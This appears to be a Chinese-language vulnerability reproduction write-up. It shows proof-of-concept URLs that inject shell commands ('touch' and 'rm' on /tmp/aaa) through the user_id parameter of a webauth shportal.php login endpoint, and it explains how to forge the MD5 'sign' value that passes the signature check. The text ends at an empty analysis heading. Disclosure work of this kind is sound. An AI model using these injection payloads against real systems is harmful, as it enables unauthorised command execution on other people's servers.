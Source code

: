 复现步骤：

1. 在浏览器地址栏填入如下内容，访问

   ```http
   https://{{BaseUrl}}/webauth/shportal.php?timestamp=0&vender_id=0&action=login&login_type=100&user_id=%26touch%20%2Ftmp%2Faaa&share=1&sign=d7957ef10abf6ffc85749959f9602380
   ```

   （注：`sign` 的值为对 `00login100&touch /tmp/aaa` 进行 MD5 计算得到的值；而 `user_id` 的值为 `&touch /tmp/aaa` 的 **URL 编码**）

   页面出现 `登录成功`，表明签名验证通过

   ![](assets/2023-11-07-13-16-44.png)

2. 在控制台中查看命令执行结果
   ![](assets/2023-11-07-13-22-21.png)

3. 将地址改为如下内容，尝试删除刚刚创建的文件

   ```http
   https://{{BaseUrl}}/webauth/shportal.php?timestamp=0&vender_id=0&action=login&login_type=100&user_id=%26rm%20%2Ftmp%2Faaa&share=1&sign=182a36a89446840e23645421b4f164d8
   ```

   文件删除成功
   ![](assets/2023-11-07-13-25-33.png)

### 漏洞分析
